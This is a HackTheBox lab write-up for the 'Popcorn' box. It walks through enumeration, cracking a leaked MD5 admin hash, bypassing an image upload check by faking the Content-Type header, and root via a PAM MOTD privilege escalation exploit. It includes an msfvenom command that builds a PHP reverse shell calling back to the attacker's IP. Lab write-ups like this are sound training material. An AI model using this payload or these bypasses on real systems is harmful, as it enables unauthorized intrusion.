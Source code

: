 ```yaml
---
title: "HackTheBox Writeup: Popcorn"
date: 2019-08-23T02:36:15+02:00
tags:
  - hackthebox
  - ctf
  - writeup
showdate: true
toc: true
---
```


A medium difficulty Linux box, where pretty much all the difficulty comes from the road to user, getting root consists in a very straightforward local privilege escalation exploit, user access is achieved by uploading a PHP shell from an image upload page.

![img](/images/popcorn-writeup/1.png)

---

## Enumeration

Let's begin right away with an nmap scan to identify running services:

![img](/images/popcorn-writeup/2.png)

Only two open ports, one for SSH access and the other leads to a standard installation of Apache, or so it seems from the homepage at least:

![img](/images/popcorn-writeup/3.png)

We don't have anywhere else to look for content so we run a dirb scan to enumerate hidden files and folders within the web server, and of course, we find out there is quite the amount of content, it's just hidden from casual lookers:

![img](/images/popcorn-writeup/4.png)

The torrent folder seems to contain a whole portal to share torrents:

![img](/images/popcorn-writeup/5.png)

We can even create our own account but I'll save that function up for later, because dirb has also found a "database" directory within the files in /torrent, which contains the backup of a database in SQL format that we can read. The most interesting part is at the very end of the file:

![img](/images/popcorn-writeup/6.png)

According to the structure of the users table, we have found the hashed password of user Admin, which has admin privileges. The password is hashed though so we must obtain the plain text equivalent first, it looks like an MD5 hash, so with a bit of lucky we may find a match on CrackStation's huge database:

![img](/images/popcorn-writeup/7.png)

Found it! It's "admin12", so now we can log in on the website and see what functionalities it has to offer:

![img](/images/popcorn-writeup/8.png)

So the password has been changed since the last backup, running hydra against the login with a list common passwords doesn't seem to work either, making this a rabbiy hole. So let's go look for something more interesting, perhaps after creating our own personal account:

![img](/images/popcorn-writeup/9.png)

Every user has access to the Upload section, where we can upload torrents to share with other users. The web application makes sure we are only trying to upload torrents, in fact trying to upload any other kind of file causes an error:

![img](/images/popcorn-writeup/10.png)

So I'm just going to grab a random .torrent file, I went for a Kali Linux image torrent because there is already one in the homepage. Once uploaded we can see there is an "add screenshot" feature, which turns out to be much less secure than the torrent upload form.

---

## Exploitation: image upload bypass

Let's see if a meterpreter shell can be sent as a fake image:

```shell-session
$ msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.14.67 LPORT=9090 -o baudy.php
```

![img](/images/popcorn-writeup/12.png)

Intercept the upload POST request with Burp and change the Content-Type header of the shell from Application/php into image/jpeg and that's enough to trick the application into uploading the file, without having to alterate the extension either:

![img](/images/popcorn-writeup/13.png)

![img](/images/popcorn-writeup/14.png)

The web server accepted it and uploaded the file without hesitation. Looking back to our old dirb scan we also found a folder for uploads, located in /torrent/upload:

![img](/images/popcorn-writeup/15.png)

Our shell has been renamed but is still there intact, so we can start a listener on our host and then start the shell by clicking on it:

![img](/images/popcorn-writeup/16.png)

We are in as www-data and we have access to /home/george, where we find our user flag. In this same home folder we have a .cache subfolder that contains a weird little file:

![img](/images/popcorn-writeup/17.png)

---

## Exploitation: PAM MOTD privilege escalation

Looking this up on Google immediately reveals a [local privilege escalation exploit](https://www.exploit-db.com/raw/14339) so we download it on our box and pass it on to Popcorn with a temporary HTTP server, I use PHP for this:

![img](/images/popcorn-writeup/18.png)

![img](/images/popcorn-writeup/19.png)


1. Change directory to /tmp/ to have write permissions
+ Download the exploit from our box
+ Add execute permissions to the exploit
+ Run
+ Profit





















